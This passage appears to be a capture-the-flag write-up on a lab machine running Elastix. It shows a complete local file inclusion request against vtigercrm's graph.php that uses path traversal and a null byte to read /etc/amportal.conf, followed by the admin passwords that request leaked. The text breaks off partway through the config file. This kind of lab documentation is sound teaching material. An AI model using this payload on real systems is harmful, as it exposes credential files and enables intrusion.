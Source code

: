 We come to a webpage with not much we can do and default credentials did not work. 

![image](https://user-images.githubusercontent.com/105310322/192898911-9424ba4f-4e3c-446b-8f9b-43aa3ef1da23.png)

So I googled Elastix exploits and stumbled upon the link below. I took the LFI and put it at the end of the url.

https://www.exploit-db.com/exploits/37637

```https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action```

It gave a bunch of output and a couple of usernames and passwords :)

AMPMGRUSER=admin #AMPMGRPASS=amp111 AMPMGRPASS=jEhdIekWmdjE

```
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, either version 2 of the License, or
#    (at your option) any later version.
#
#    FreePBX is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License
#    along with FreePBX.  If not, see <http://www.gnu.org/licenses/>.
#
# This file contains settings for components of the Asterisk Management Portal
# Spaces are not allowed!